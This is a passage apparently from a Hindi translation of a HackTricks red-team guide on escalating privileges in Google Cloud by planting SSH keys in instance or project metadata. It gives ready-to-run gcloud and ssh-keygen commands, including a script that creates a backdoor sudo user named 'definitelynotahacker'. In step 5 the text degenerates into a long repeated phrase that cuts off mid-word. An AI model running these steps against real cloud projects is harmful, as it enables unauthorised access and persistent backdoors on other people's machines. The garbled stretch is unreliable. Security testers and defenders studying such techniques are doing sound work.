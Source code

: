 # GCP - अपनी विशेष SSH मेटाडेटा जोड़ें

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मेटाडेटा को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक इंस्टेंस पर मेटाडेटा संशोधन **भारी सुरक्षा जोखिम** के लिए जानकारी प्राप्त करने पर ले जा सकता है अगर कोई हमलावर आवश्यक अनुमतियाँ प्राप्त कर लेता है।

### **कस्टम मेटाडेटा में SSH कुंजियों को शामिल करना**

GCP पर, **Linux सिस्टम** अक्सर [Google Compute Engine के लिए Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक है [अकाउंट्स डेमन](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), जो निरंतर इंस्टेंस मेटाडेटा एंडपॉइंट की अपडेट की जांच करने के लिए डिज़ाइन किया गया है ताकि अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट हो सकें।

इसलिए, अगर कोई हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी मिलने के लिए बना सकता है, जो स्थानीय सिस्टम में **एकीकृत की जाएगी**। कुंजी को `~/.ssh/authorized_keys` फ़ाइल में **मौजूदा उपयोगकर्ता में जोड़ दिया जाएगा या संभावित रूप से `sudo` अधिकारों वाले नए उपयोगकर्ता को बनाया जा सकता है**, कुंजी के प्रारूप पर निर्भर करता है। और हमलावर होस्ट को कंप्रमाइज़ कर सकेगा।

### **मौजूदा विशेषज्ञ उपयोगकर्ता में SSH कुंजी जोड़ें**

1. **इंस्टेंस पर मौजूदा SSH कुंजियों की जांच करें:**
- इंस्टेंस और उसकी मेटाडेटा का विवरण विवरणीय शैली में देखने के लिए आदेश निष्पादित करें ताकि मौजूदा SSH कुंजियों को ढूंढ सकें। उत्पादन में संबंधित खंड `metadata` के अंतर्गत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता कुंजी के आगे कोलन आता है, जिसे एक अंतराल द्वारा अलग किया गया है।

2. **SSH कुंजी मेटाडेटा के लिए एक पाठ फ़ाइल तैयार करें:**
- उपयोगकर्ताओं के विवरण और उनकी संबंधित SSH कुंजियों को `meta.txt` नामक एक पाठ फ़ाइल में सहेजें। यह नए कुंजियों जोड़ते समय मौजूदा कुंजियों को सुरक्षित रखने के लिए आवश्यक है।

3. **लक्षित उपयोगकर्ता (`alice` इस उदाहरण में) के लिए एक नई SSH कुंजी उत्पन्न करें:**
- नए SSH कुंजी उत्पन्न करने के लिए `ssh-keygen` आदेश का उपयोग करें, सुनिश्चित करें कि टारगेट उपयोगकर्ता का टिप्पणी क्षेत्र (`-C`) उपयोगकर्ता के नाम से मेल खाता है।
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, इंस्टेंस की मेटाडेटा में पाए जाने वाले प्रारूप की तरह।

4. **इंस्टेंस की SSH कुंजी मेटाडेटा को अपडेट करें:**
- `gcloud compute instances add-metadata` आदेश का उपयोग करके इंस्टेंस पर अपडेटेड SSH कुंजी मेटाडेटा लागू करें।
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके इंस्टेंस तक पहुंचें:**
- नई कुंजी का उपयोग करके इंस्टेंस से SSH के साथ कनेक्ट करें, लक्षित उपयोगकर्ता के संदर्भ में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल में शैल म
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### परियोजना स्तर पर SSH कुंजियाँ <a href="#sshing-around" id="sshing-around"></a>

एक क्लाउड वातावरण में **परियोजना स्तर पर SSH कुंजियाँ लागू करके** एसएसएच एक्सेस की रेंज को विस्तारित करना संभव है। यह दृष्टिकोण किसी भी इंस्टेंस में एसएसएच एक्सेस को सुनिश्चित करता है जो परियोजना भर में एसएसएच कुंजियों को व्यक्तिगत रूप से नहीं ब्लॉक किया है। यहां एक संक्षेपित मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजियाँ लागू करें:**
- `gcloud compute project-info add-metadata` कमांड का उपयोग करें ताकि `meta.txt` से SSH कुंजियाँ परियोजना की मेटाडेटा में जोड़ सकें। यह कार्रवाई सुनिश्चित करती है कि एसएसएच कुंजियाँ परियोजना के सभी वीएम में मान्य हैं, जब तक एक वीएम में "ब्लॉक परियोजना स्तर एसएसएच कुंजियाँ" विकल्प सक्षम नहीं है।
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **परियोजना-स्तर कुंजियों का उपयोग करके इंस्टेंस में SSH:**
- परियोजना-स्तर की SSH कुंजियाँ लागू होने पर, आप परियोजना के भीतर किसी भी इंस्टेंस में SSH कर सकते हैं। परियोजना-स्तर कुंजियों को ब्लॉक नहीं करने वाले इंस्टेंस एसएसएच कुंजी को स्वीकार करेंगे, जिससे एक्सेस मिलेगा।
- एक इंस्टेंस में SSH करने का सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई एसएसएच कुंजियों का उपयोग करता है एक्सेस की कोशिश करने के लिए।


# संदर्भ
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
